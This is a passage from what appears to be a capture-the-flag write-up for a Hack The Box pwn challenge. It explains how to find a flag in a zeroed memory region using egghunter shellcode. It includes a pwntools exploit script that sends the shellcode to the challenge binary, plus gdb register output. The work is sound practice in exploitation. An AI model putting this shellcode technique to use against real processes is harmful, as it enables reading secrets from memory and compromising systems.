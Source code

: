 Paying close attention to these, flag resides in  `0x74b90000  - 0x74b90024  →   "HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}"` which when we see in `vmmap` which shows the numbers of the memory pages used by the executable turns out to be from the `ummap`'d region.

```asm
0x74b90000 0x74b91000 0x00000000 rwx /dev/zero (deleted)
```

So, therefore, what we see here is the flag belongs to a 0 initialized memory region, what can we do now? 

There's a shellcode technique called `egghunting` which is used to search for `EGG` which could be string/address/byte/DWORD or anything which resides in memory which we want to search for, since the memory region where the flag resides still belongs to the binary process image, we can use `egghunting` technique shellcode and once we get the memory pointed to the `HTB{` we can print it by just calling write.

# Exploit Development and Debugging

So, without further ado, let's start, what we can do here is now:-

* Call egghunting shellcode and search for string `HTB{` in the process image.
* Once found, print it with the `write`

Let's start by first finding the `HTB` string:-

With the help of the `shellcraft.egghunter(string, starting_address)` of pwntools, we can give the string we want to find and the starting address to let it prepare the shellcode for us.

```py
from pwn import *

context.arch = "i386"

p = process("./hunting")
shellcode = asm(shellcraft.egghunter(b"HTB{", 0x50000000))
pause()
p.send(shellcode)
p.interactive()
```

> NOTE: Since PIE is enabled, the base address for the binary would start from here, more or less, `0x50000000` marking it as starting address saved seconds(I am picky).

Running the exploit and attaching it to the `gdb`:-

```asm
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xfffffffe
$ebx   : 0x69df0000  →  "HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}"
$ecx   : 0x0       
$edx   : 0x400     
$esp   : 0xfff30008  →  0x7b425448 ("HTB{"?)
$ebp   : 0xfff30028  →  0x00000000
$esi   : 0xfff3000c  →  0x5655b44f  →   mov eax, 0x0
$edi   : 0x69df0004  →  "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}"
$eip   : 0x579fe1d9  →  0x29000000
```
